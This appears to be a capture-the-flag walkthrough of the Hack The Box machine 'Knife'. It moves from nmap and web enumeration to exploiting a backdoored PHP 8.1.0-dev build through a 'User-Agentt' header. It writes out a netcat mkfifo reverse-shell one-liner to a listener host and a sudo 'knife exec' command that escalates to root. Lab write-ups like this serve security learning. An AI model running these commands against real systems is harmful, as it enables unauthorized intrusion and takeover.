 <b>

# Information Gathering
I started by pinging the box 4 times to ensure stable connection
`ping -c 4 10.10.10.242`
```
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=108 ms
64 bytes from 10.10.10.242: icmp_seq=2 ttl=63 time=109 ms
64 bytes from 10.10.10.242: icmp_seq=3 ttl=63 time=110 ms
64 bytes from 10.10.10.242: icmp_seq=4 ttl=63 time=109 ms
```
After confirming good connection i ran `nmap` with `-Pn` to skip testing if the target is alive and `-sVC` for version and additional information
`nmap -sVC -Pn 10.10.10.242`
```
Nmap scan report for 10.10.10.242
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I also ran `whatweb` with `-a 3` for aggressive (comprehensive) information gathering about the website
`whatweb -a 3 10.10.10.242`
```
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
The website didn't appear to have any links or directories so i try dirbusting with `feroxbuster` but no use either
`feroxbuster -r -k -E -g -C 400,403,404 --auto-tune -u http://10.10.10.242/`
```
200      GET      220l      526w     5815c http://10.10.10.242/
[####################] - 68s    30002/30002   0s      found:1       errors:0      
[####################] - 67s    30000/30000   447/s   http://10.10.10.242/ 
```
I try `dirsearch` just to be sure but no luck either
`dirsearch -F --crawl -u http://10.10.10.242/`
```
[12:10:02] 403 -  277B  - /.ht_wsr.txt                                      
[12:10:02] 403 -  277B  - /.htaccess.bak1                                   
[12:10:02] 403 -  277B  - /.htaccess.orig                                   
[12:10:02] 403 -  277B  - /.htaccess.sample                                 
[12:10:02] 403 -  277B  - /.htaccess.save
[12:10:02] 403 -  277B  - /.htaccess_extra                                  
[12:10:02] 403 -  277B  - /.htaccess_orig
[12:10:02] 403 -  277B  - /.htaccessBAK
[12:10:02] 403 -  277B  - /.htaccessOLD
[12:10:02] 403 -  277B  - /.htaccessOLD2
[12:10:02] 403 -  277B  - /.htaccess_sc
[12:10:02] 403 -  277B  - /.htm                                             
[12:10:02] 403 -  277B  - /.html
[12:10:02] 403 -  277B  - /.htpasswd_test                                   
[12:10:02] 403 -  277B  - /.htpasswds                                       
[12:10:02] 403 -  277B  - /.httr-oauth                                      
[12:10:44] 403 -  277B  - /server-status                                    
[12:10:44] 403 -  277B  - /server-status/ 
```
# Vulnerability Assessment
The server was running `Apache 2.4.41` and using `PHP 8.1.0-dev`
Looking up `php 8.1.0 exploit` leads to this:
https://www.exploit-db.com/exploits/49933

The cause of the exploit was an early realease which contained a backdoor
The backdoor was removed but any server that still runs this version allows an attacker to execute arbitrary code by sending the `User-Agentt` header
# Exploitation
Running the exploit, it asked for full URL: `http://10.10.10.242/`
After that it spawned `pseudo shell`
# Post-Exploitation
The job control is turned off so i couldn't spawn interactive shell no matter what i tried:
`/bin/sh -i`
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
`perl —e 'exec "/bin/sh";'`

In that case, i opened `netcat` listner on port 4444 and executed reverse shell on the `pseudo shell`
`nc -lvnp 4444` (listener)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f` (reverse shell)

Having reverse shell from `nc`, i upgraded to `interactive shell`
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

There was only 1 directory inside `/home` called `james` (which is who we are - `whoami`), the user flag can be found inside `/home/james/user.txt`
After that i started checking common things but the exploits for them didn't work
- `sudo --version` (sudo version)
- `uname -a` (system information)

Running `sudo -l` to see what i can run as sudo led to this
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Looking up `usr/bin/knife exploit` gave me this
https://gtfobins.github.io/gtfobins/knife/

Running the `sudo knife exec -E 'exec "/bin/sh"'` allowed me to become root
The flag was located at `/root/root.txt`
</b>
